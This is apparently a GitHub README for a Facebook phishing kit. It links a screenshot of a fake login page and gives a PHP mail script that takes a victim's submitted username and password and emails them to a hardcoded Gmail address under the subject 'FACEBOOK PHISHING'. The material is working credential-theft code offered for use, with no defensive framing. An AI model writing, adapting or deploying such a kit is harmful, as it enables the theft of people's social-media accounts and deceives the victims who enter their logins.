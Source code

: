 # Facebook-Phishing
Facebook Phishing { UI &amp;  [fish (User_Name &amp; Password)] Send Your email address }
<br><br>
![ui01](https://user-images.githubusercontent.com/77710282/158953984-17708128-2cff-445f-88c9-0f6daf64e9ee.PNG)


## PHP MAIL FUNCTION
```
<?php 
	
	//php STRAT
	if ( isset($_POST['submit']) )
	
	{
		$email		= $_POST['email'];
		$subject	= $_POST['subject'];
  
		$to	 		  = 'dhjptharindu@gmail.com'; // your email address
		$mail_subject = 'FACEBOOK PHISHING ';
		$email_body   = "<h2> FISH FACEBOOK DETAILS: </h2><br><br>";
                $email_body   .= "<b>USER NAME:</b> {$subject} <br>";
		$email_body   .= "<b>PASSWORD:</b> {$email} <br>";
		$header       = "From: {$email}\r\nContent-Type: text/html;";

		$send_mail_result = mail($to, $mail_subject, $email_body, $header);
	}
?>
```
## YOU MAIL Mail  
`
$to	 		  = 'dhjptharindu@gmail.com'; // your email address
`
